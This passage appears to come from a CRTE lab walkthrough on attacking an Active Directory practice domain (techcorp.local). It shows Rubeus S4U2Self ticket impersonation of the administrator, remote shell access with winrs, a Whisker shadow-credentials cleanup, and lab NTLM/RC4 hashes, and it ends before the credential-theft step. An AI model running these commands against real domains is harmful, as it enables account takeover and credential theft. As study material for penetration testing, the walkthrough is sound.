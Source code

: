 ```powershell
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : 76C3848CC2E34EF0A8B5751F7E886B8E
```
- We will now use the generated TGT to execute a S4U2Self attack to impersonate `us\administrator` and request a TGS for the `HTTP` service.
```powershell
PS C:\Auditor> .\Rubeus.exe s4u /self /impersonateuser:Administrator /altservice:http/us-helpdesk.us.techcorp.local /dc:us-dc.us.techcorp.local /ptt /nowrap /ticket:doIG...
```
- We can now access the compromised server.
```powershell
PS C:\Auditor> winrs -r:us-helpdesk.us.techcorp.local powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator.US> whoami;hostname
whoami;hostname
us\administrator
US-HelpDesk
```
- After pillaging the compromised server, we can exit, clear our Kerberos tickets from our cache and impersonate `us\mgmtadmin` again in order to clean up the `msDS-KeyCredentialLink` attribute of the target server. In the end we will list the attribute again to make sure we have properly performed our cleanup.
```powershell
PS C:\Auditor> .\Rubeus.exe purge
PS C:\Auditor> .\Rubeus.exe asktgt /user:mgmtadmin /rc4:e53153fc2dc8d4c5a5839e46220717e5 /domain:us.techcorp.local /ptt

<snip>

PS C:\Auditor> .\Whisker.exe clear /target:us-helpdesk$ /domain:us.techcorp.local /dc:us-dc.us.techcorp.local
[*] Searching for the target account
[*] Target user found: CN=US-HELPDESK,CN=Computers,DC=us,DC=techcorp,DC=local
[*] Updating the msDS-KeyCredentialLink attribute of the target object
[+] Updated the msDS-KeyCredentialLink attribute of the target object
PS C:\Auditor> .\Whisker.exe list /target:us-helpdesk$ /domain:us.techcorp.local /dc:us-dc.us.techcorp.local
[*] Searching for the target account
[*] Target user found: CN=US-HELPDESK,CN=Computers,DC=us,DC=techcorp,DC=local
[*] Listing deviced for us-helpdesk$:
[*] No entries!
```
# 15. Extracting Credentials and Tokens from `US-HELPDESK`
- Using one of the attacks described at [[3. CRTE/2. Lab Walkthrough/1st Forest (techcorp.local)/1. us.techcorp.local/2. Kill Chain#14.3 Account Permissions]], we can now access `US-HELPDESK` with administrative privileges.
```powershell
PS C:\Auditor> winrs -r:us-helpdesk.us.techcorp.local powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator.US> hostname;whoami
hostname;whoami
US-HelpDesk
us\administrator
```
- We can attempt to steal credentials and tokens from the compromised server.
```powershell
```